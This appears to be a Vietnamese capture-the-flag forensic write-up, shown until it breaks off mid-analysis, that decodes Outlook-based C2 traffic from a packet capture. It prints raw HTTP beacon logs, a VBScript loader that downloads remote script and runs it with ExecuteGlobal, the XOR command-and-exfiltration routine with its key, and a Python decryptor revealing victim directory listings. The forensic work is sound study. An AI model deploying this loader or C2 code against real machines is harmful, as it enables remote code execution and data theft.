"3F55250908166B24175D1C0C190B74246E7E12162A231C1B15272F31084D3C540B021F5E246A5E177D450C6B336124091411172033782B2A377531143F25281513350A473C180912650B165858444B623D1D316B675522334F19772007113F2F1755110F0254305D7461704A7F654006675E52427A5B42014D535F09596D126B6726750D3A47321E153E092931623B352F54270C203E3739293D0E53791C1F4266422B58020C5111640A36716A4503301C401A03020B2D0B1D55424959047B57637E75557D644F05625652537156493C722F5111175D080434003D2233761C25352117261D42131D0441082836222E012630011A3B020D4266422B58020C5111640A36716A4503301C401A03020B2D0B1D5542495B097B57607E75557D654F046F56565771564C3C722F5111175D080434003D2233761C25352117261D42131D044108333B2367273D3E1847321E480E2509581C583A024B315D74612A076F7C4F78361F122F24061157110C0F0B74576C7E775160635F06634C565A7156490B4B5E663B105D74127D391A220A462430242902313B6D3C0C185A2008240D173610051D55391F051022120C4258444B7D3514201C280126370651335646527A4D4901575B5B03614764637D547E6B5B045A66"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:22 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:32 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:42 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:18:52 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:02 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:12 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:22 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:32 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1024
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:42 GMT
Cache-Control: no-store
Etag: "0d6c8dd16e49e7c7f0db1a29102f2b744e28a943"
Content-Length: 805

100102941390f120b240c58561d1d34573d0b31796e6f461e0114121e140d39422a540b1c065474293129336f46020a40770a154276420f58160d04467a022c2522172130031a1819120e240d13700819075837062038280b61121d513618032d29081d520c41496237153d21330c213641723e00033132110c541526095b310420736e6f46020a40770a0f0e2e4245111e1a4576311312382b0067732c0e0b3915073911247333203872082331222c11202133523b0d014c3b1b5a1872600257742e271f32092379095d3b094f421f0a1d5f582c13582047122429063b38005a5d4c46426b051d45270f025d31476971210c233441473e1603680e0c1c113e1c0552200e3b3f4d2a273c4f09774e4468040a1511454908432d17203922093f341d1c3009123d2d0b145450404711351e787113173a34463e25190a4276420a54091c0e4220173536224d6d391b402756494d7a5b4a1f495f531f654965697e5f77625702780f1511640600060d5e3a681734383313071e7343143404144a785651115e49245939477271240d3d795c007e45
310
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 8
Host: 192.168.1.189:8386


8
"590C63"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:42 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:19:52 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:02 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:12 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:22 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1024
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:32 GMT
Cache-Control: no-store
Etag: "0d6c8dd16e49e7c7f0db1a29102f2b744e28a943"
Content-Length: 805

100102941390f120b240c58561d1d34573d0b31796e6f461e0114121e140d39422a540b1c065474293129336f46020a40770a154276420f58160d04467a022c2522172130031a1819120e240d13700819075837062038280b61121d513618032d29081d520c41496237153d21330c213641723e00033132110c541526095b310420736e6f46020a40770a0f0e2e4245111e1a4576311312382b0067732c0e0b3915073911247333203872082331222c11202133523b0d014c3b1b5a1872600257742e271f32092379095d3b094f421f0a1d5f582c13582047122429063b38005a5d4c46426b051d45270f025d31476971210c233441473e1603680e0c1c113e1c0552200e3b3f4d2a273c4f09774e4468040a1511454908432d17203922093f341d1c3009123d2d0b145450404711351e787113173a34463e25190a4276420a54091c0e4220173536224d6d391b402756494d7a5b4a1f495f531f654965697e5f77625702780f1511640600060d5e3a681734383313071e7343143404144a785651115e49245939477271240d3d795c007e45
310
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 8
Host: 192.168.1.189:8386


8
"590C63"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:32 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1273
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:42 GMT
Cache-Control: no-store
Etag: "f0877a714412a06563c68dc7b6aa423dc13613f8"
Content-Length: 1053

100102941390f120b240c5855171e055d3b06300e210c2334471d5d65290c6b270a43171b4b633114213c2245013417405d6535073f421e4258544b463d09303e304b2a291b512502070e652d0d451406045a1517243d2e062e25065b394225102e030c54370b015437137c7314063d381f403e02014c0d0b14542b101845310a1b332d002c254d1d5d6535073f421e58140c4b0c7401277f00003b17065832444421713e2d421d1b186d162c1d0204390b341c5f2303163e2d0e1956561912137d6d5d382145062221413b004e04220e1d18583d03543a4711292e116f171a5a34180f0d2568711158494b663d133c71210c2334417b2709082338361d490c3a1f43310639796e6f46714f14774235092212500151634b117447747167453d340e5015050803391b580c5847395435037c677f51665b4f14774c46426b425672140618545e477471672021354f633e180e686b4258111c061c5f380835351803263d0a146a4c14072a063a58160819485e223a3567233a3f0c403e030868040a1511454949135e283c3c67586f321d4d27180e0727121d43500d04463a0b3b30233a293803517f454a422a1b54112c1b1e547d6d26242b4572711d51261903113f1219561d4149592013246b684a7e685d1a665a5e4c7a4c4909415353026c517b32341660351703225b373b083114532c0b3a1378473739354d7c654614714c290a26425e111b01191967537d78
313
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 1370
Host: 192.168.1.189:8386


1370
"4C141D1915166B100D5F581D035474043B3522453B3E4F53321846162307585714080C113808385C4D6845350A52773E255663091D4858534B532D1331226B453F3D0E5D3918031A3F4242111A101F54274E6E5C4D456F714F677751460E22110C190A080556314F6664714C665C6514774C46086B5F58017563663B74477471210A3D7106143E0246102A0C1F54505B5E077D5D595B67456F714F14774C0C427642505B58424B620F0E09716C452434166F3E4C434227071619130C1218094E747467577A67623E774C46426B4258112B32026C7847070A2D386F6C4F670C063B4E6B31235825494B3C5E6A5E7167456F384F097706465F6B52753B58494B11370E243922173B34174077514639166F721158494B573B1574322F043D71065A771C0A03220C0C54001D513C5E47747167456F714F5D7751464A2242531149404B14745561674A6F6F714F14774C46422142451150034B1A74340F381A4C6F744F06625A6B686B42581158494B11073C3D0C6B451C0A0569775146311008251D583A30580947745C4D456F714F14774C46166B5F58192B32026C744C74021C0F12784F11775E53544668581158494B1174473F717A451C0A1B695A6646426B42581158490858240F3123330037254155271C030C2F4A1B59191B4B6F740C7D5C4D6845714F14771E03163E1016111A101F54274F3738370D2A231B512F184F6F416F725A1D104B0C7405763D280A2430035D3C09050A22011354164B663B240B353829112A291B146A4C04457004196D0050536D2C046D0D3F547C0D17576F301E5A723E005519351301603B2C342339373359682F5D5F3E335B406D000F0F56124A082976511C0D17556F473A1A2D57486D000A5F41081F3268773937335D123D301E5273535F3C721919583A137C030451673A0A4D7B4C160E2A0B16451D111F187A03313228012A79461D"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:42 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:20:52 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:02 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:12 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:22 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	1460
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:32 GMT
Cache-Control: no-store
Etag: "0352423f5dc4e2bc40354671a98b4d1ad75da549"
Content-Length: 1379

100102941390f120b240c58551d050e45313832382b006778653d1802460739101743581b0e42210a317129003725653d040912422d11580c581e025f3008237f221d3b341d5a3600482d3e16145e17022a41240b3d322611263e011a141e03033f073753120c08457c450732350c3f25065a3042200b27072b480b1d0e5c1b053e3424116d786514774c462b2d421e42562f025d31222c3834113c794d776d3033112e100b6d3a222262173b1034340e3b3e1f683100070565120113514956110015213467312734013e774c46426b4258111e1a4575310b31252223263d0a14752f5c3e1e111d430b35297a1d34170d03003c3a1b5b2730000e2a055641014b6138110930710e03455b667d314c00116524115d1d2c1358271327796526750d3a47321e153e092931623b352f54270c203e3739293d0e53791c1f40624245112c1b1e5474333c34296f46580b513b0912071404115d1d49561130023834330010370658324c404269261d5d1d1d0e11320e38347d456d714914752f5c3e1e111d430b35297a1d34170d03003c3a1b5b2730000e2a055641014b4b177445747c67232e3803165d65030e38077238710d0e5d3113310e210c23344f097708030e2e161d6e1e00075474417473030023341b51770a0f0e2e585813584f4b13175d080434003d2233761c25352117261d42131d044108013830204b3f284d14714c444266422b441b0a0e422746765b4e2021354f7d3166230c2f423e44160a1f583b095e1e2f086f6c4f167566290a264245111b1b1241200f313d37003d790b513b0912071404115d1d41421d74062d7d67313d240a1d5d1e130e6b5f58431d181e542713243020006773074
	139
0231c5c4d6453410356585d097a567a607f5c75695c0c61430511384d1c494f1c5c600d24073d25312d004d18770f0e1063514c18584f4b7e3c0a747767062723470763454f
312
POST /css/dx7u7QYCSlbTbQ HTTP/1.1
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Content-Length: 110
Host: 192.168.1.189:8386


110
"2B513B0912076B04115D1D534B726E3B012222173C0D2D7F1E3F253E0F070B5A0C061B6D320B3536691536714214041905012E110B10"
	142
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:32 GMT
Content-Length: 0


250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:42 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:21:52 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:22:02 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
250
GET /css/dx7u7QYCSlbTbQ/rUe38nIs HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-gb
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook 16.0)
Host: 192.168.1.189:8386


	222
HTTP/1.1 200 OK
Server: Microsoft-IIS/8.5
Content-Type: text/html; charset=UTF-8
Date: Wed, 01 Oct 2025 01:22:12 GMT
Cache-Control: no-store
Etag: "9e1af8586e5b4f5318e1c3c6d4a3ce305427ebd2"
Content-Length: 5

20010
===================================================================
```


Request đầu tiên:

```http
GET /css/dx7u7QYCSlbTbQ HTTP/1.1
User-Agent: Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Microsoft Outlook 16.0.18925)
Host: 192.168.1.189:8386
```

Response trả về HTML có đoạn:

```vbscript
Sub DownloadCacheLogic ()
    Set server_manager = window.external.OutlookApplication.CreateObject("MSXML2.ServerXMLHTTP")
    vr = Left(window.external.OutlookApplication.version,4)
    server_manager.open "GET", "http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ/FxBdmVg", False
    server_manager.setRequestHeader "User-Agent", "Mozilla/5.0 (compatible; MSIE 10.0; Windows NT 10.0; WOW64; Trident/7.0; Specula; Microsoft Outlook " & vr
    server_manager.send
    rp = server_manager.ResponseText
    ExecuteGlobal rp
End Sub

Sub window_onload()
    DownloadCacheLogic
End Sub
```

Suy luận:

```text
/css/dx7u7QYCSlbTbQ
```

chỉ là loader. Nó tải script thật từ:

```text
/css/dx7u7QYCSlbTbQ/FxBdmVg
```

rồi dùng `ExecuteGlobal` để chạy script đó trong Outlook.

---

## 5. Phân tích script `/FxBdmVg`

Trong response của:

```http
GET /css/dx7u7QYCSlbTbQ/FxBdmVg
```

có script VBScript dài khoảng `3610` bytes. Script này làm các việc quan trọng sau.

### Đọc XOR key từ registry

```vbscript
ay = readreg("Software\Microsoft\Office\"  & Left(outlookapp.version,4) & "\Outlook\UserInfo", "KEY")
```

Tức là key đã lấy từ stage trước:

```text
o4WlfbKbx1xik1TgTQGeOQ
```

sẽ được dùng làm key giải mã C2.

### Polling endpoint nhận lệnh

```vbscript
downloadcode "http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ/rUe38nIs"
window.setTimeout "update_subscription", sync, "VBScript"
```

### Format command

Script parse response như sau:

```vbscript
f = Left(response, 1)
j = Int(Mid(response, 2, 4)) * 1000
sync = j
```

Nghĩa là response có format:

```text
[1 byte mode][4 byte sleep][payload]
```

Ví dụ:

```text
10010...
```

được hiểu là:

```text
mode  = 1
sleep = 0010 = 10 giây
payload = phần hex phía sau
```

Còn:

```text
20010
```

nghĩa là:

```text
mode  = 2
sleep = 10 giây
không có command cần chạy
```

### Giải mã command

Đoạn quan trọng:

```vbscript
If f = 1 Then
    ExecuteGlobal Crypt(Mid(response, 6), ay, False)
```

Nếu response bắt đầu bằng `1`, script sẽ lấy phần từ ký tự thứ 6 trở đi, XOR-decrypt bằng key `ay`, rồi `ExecuteGlobal` để chạy command.

Trong script có hàm:

```vbscript
Function Crypt(input, Key, Mode)
    For i = 1 To Len(input)
        Position = Position + 1
        If Position > Len(Key) Then Position = 1
        keyx = Asc(Mid(Key, Position, 1))
        If Mode Then
            orgx = Asc(Mid(input, i, 1))
            cptx = orgx Xor keyx
            cptString = Hex(cptx)
            If Len(cptString) < 2 Then cptString = "0" & cptString
            z = z & cptString
        Else
            If i > Len(input) \ 2 Then Exit For
            cptx = CByte("&H" & Mid(input, i * 2 - 1, 2))
            orgx = cptx Xor keyx
            z = z & Chr(orgx)
        End If
    Next
    Crypt = z
End Function
```

Khi `Mode=True`, hàm sẽ XOR plaintext rồi chuyển thành hex. Các command sau khi chạy đều gửi kết quả về:

```vbscript
rul = requestpage("http://192.168.1.189:8386/css/dx7u7QYCSlbTbQ", chr(34) & Ohm & chr(34))
```

Vì vậy các request:

```http
POST /css/dx7u7QYCSlbTbQ
```

là dữ liệu exfil/result từ victim gửi về server.

Đến đây các payload C2 không còn ở dạng plaintext nữa. Trong script `/FxBdmVg`, hàm `Crypt` và `crypthelper` cho thấy dữ liệu được XOR bằng key lấy từ registry:

```text
o4WlfbKbx1xik1TgTQGeOQ
```

---

## 6. Giải mã dữ liệu C2 XOR

Với response từ `/rUe38nIs`, format là:

```text
[mode][sleep][hex_payload]
```

Nếu `mode = 1`, script sẽ lấy phần từ ký tự thứ 6 trở đi, XOR-decrypt bằng key rồi `ExecuteGlobal`.

Sử dụng script để decrypt các payload trong `payload2.txt`:

```python
import re

key = b"o4WlfbKbx1xik1TgTQGeOQ"

def xor_decrypt(hex_data):
    data = bytes.fromhex(hex_data)
    return bytes(
        b ^ key[i % len(key)]
        for i, b in enumerate(data)
    )

text = open("payload2.txt", "r", errors="ignore").read()

blocks = re.findall(r'\n"([0-9A-Fa-f]{6,})"', text)

for i, h in enumerate(blocks, 1):
    plain = xor_decrypt(h)
    decoded = plain.decode("latin1", errors="replace")

    print(f"\n========== POST block #{i} ==========")
    print(f"hex chars : {len(h)}")
    print(f"plain len : {len(plain)} bytes")

    if any(x in decoded for x in ["Parent Folder", "flag.py", "RC4", "Delete file", "C:\\Users", "684"]):
        print(decoded[:4000])
    else:
        print(decoded[:500].replace("\r", "\\r").replace("\n", "\\n"))
```

Cuối cùng thu được các block đáng chú ý.

### POST block #1

```text
========== POST block #1 ==========
hex chars : 774
plain len : 387 bytes
Parent Folder: C:/Users
F: C:\Users\desktop.ini - Size: 0mb - LastModified: 07/12/2019 10:12:42
D: C:\Users\All Users - LastModified: 07/12/2019 10:30:39
D: C:\Users\BKISC - LastModified: 31/07/2025 11:53:48
D: C:\Users\Default - LastModified: 23/07/2025 16:24:11
D: C:\Users\Default User - LastModified: 07/12/2019 10:30:39
D: C:\Users\Public - LastModified: 07/04/2024 19:05:48
```

C2 đang liệt kê thư mục `C:\Users` và phát hiện user profile `BKISC`.

### POST block #2

```text
========== POST block #2 ==========
hex chars : 6012
plain len : 3006 bytes
Parent Folder: C:/Users/BKISC
F: C:\Users\BKISC\NTUSER.DAT - Size: 9.8mb - LastModified: 01/10/2025 08:07:39
F: C:\Users\BKISC\ntuser.dat.LOG1 - Size: 2.5mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\ntuser.dat.LOG2 - Size: 2.6mb - LastModified: 07/04/2024 19:03:40
F: C:\Users\BKISC\ntuser.ini - Size: 0mb - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\.vscode - LastModified: 08/04/2024 10:00:34
D: C:\Users\BKISC\AppData - LastModified: 07/04/2024 19:03:40
D: C:\Users\BKISC\Desktop - LastModified: 25/07/2025 15:41:26
D: C:\Users\BKISC\Documents - LastModified: 10/04/2024 18:17:00
D: C:\Users\BKISC\Downloads - LastModified: 01/10/2025 02:10:13
D: C:\Users\BKISC\Pictures - LastModified: 07/04/2024 19:07:06
```

C2 tiếp tục đi vào profile của user `BKISC`, sau đó thấy thư mục `Desktop`.

### POST block #3


```text
========== POST block #3 ==========
hex chars : 932
plain len : 466 bytes
Parent Folder: C:/Users/BKISC/Desktop
F: C:\Users\BKISC\Desktop\desktop.ini - Size: 0mb - LastModified: 07/04/2024 19:05:48
F: C:\Users\BKISC\Desktop\flag.py - Size: 0mb - LastModified: 25/07/2025 15:41:41
F: C:\Users\BKISC\Desktop\Obsidian.lnk - Size: 0mb - LastModified: 08/04/2024 08:05:44
F: C:\Users\BKISC\Desktop\Tor Browser.lnk - Size: 0mb - LastModified: 08/04/2024 08:41:37
D: C:\Users\BKISC\Desktop\PS_Transcripts - LastModified: 01/10/2025 02:11:40
```

Ở đây C2 đã phát hiện file:

```text
C:\Users\BKISC\Desktop\flag.py
```

### POST block #4 và #5

```text
========== POST block #4 ==========
hex chars : 6
plain len : 3 bytes
684

